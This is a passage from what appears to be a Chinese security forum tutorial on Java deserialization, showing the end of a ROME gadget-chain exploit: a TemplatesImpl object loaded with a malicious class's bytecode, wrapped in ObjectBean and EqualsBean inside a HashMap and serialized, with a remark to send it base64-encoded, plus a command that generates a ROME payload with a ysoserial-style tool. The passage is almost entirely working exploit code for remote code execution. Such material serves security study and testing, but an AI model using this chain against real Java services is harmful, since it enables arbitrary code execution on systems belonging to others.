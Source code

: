 ```java
        return obj;
    }

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][] {payloads});
        setFieldValue(templates, "_name", "zjacky");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        // 使用 TemplatesImpl 初始化被包装类，使其 ToStringBean 也使用 TemplatesImpl 初始化
        ObjectBean delegate = new ObjectBean(Templates.class, templates);

        // 使用 ObjectBean 封装这个类，使其在调用 hashCode 时会调用 ObjectBean 的 toString
        // 先封装一个无害的类
        ObjectBean root = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "zjacky"));

        // 放入 Map 中
        HashMap map = new HashMap&lt;&gt;();
        map.put(root, "zjacky");
        map.put("1", "1");

        // put 到 map 之后再反射写进去，避免触发漏洞
        Field field = ObjectBean.class.getDeclaredField("_equalsBean");
        field.setAccessible(true);
        field.set(root, new EqualsBean(ObjectBean.class, delegate));

        serialize(map);
//        unserialize("ser.bin");
    }

}

```

base64传入即可

‍

工具

```bash
java -jar y4-yso.jar ROME "calc" | base64 -w 0 &gt; 1.txt
```

‍

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e8ce63bb94f2c26f84ac37b7891cd031d7955b6f.png)​

‍

‍